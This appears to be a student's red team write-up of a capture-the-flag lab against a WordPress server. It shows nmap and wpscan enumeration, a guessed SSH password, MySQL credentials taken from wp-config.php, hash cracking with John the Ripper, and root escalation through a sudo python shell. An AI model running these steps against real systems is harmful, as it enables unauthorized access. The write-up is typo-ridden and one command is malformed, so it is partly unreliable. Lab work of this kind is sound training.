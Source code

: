 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](Images/Nmap Scan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u
-Micheal
-Steven

![](Images/User.png)


With a simple brut force user Michael password was cracked: Password was "michael"

 `flag1.txt`: 
    -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](Images/Flag1.png)
![](Images/Flag 2.png)

`flag2.txt`:
    -Flage 2 was found in following directories:
     Command: cd /var/www/
            : ls -al

![](Images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account
command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p
password: R@v3nSecurity
  mysql> use wordpress;
        show table;
        SELECT * FROM wp_users;
        SELECT * FROM wp_posts;

![](Images/WP TABLE.png)
![](Images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege
Command: ssh steven@192.168.1.110
password: pink84
        :sudo -l
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        :cd /root
        :ls -al
        :cat falg4.txt
        
![](Images/flag4.png)



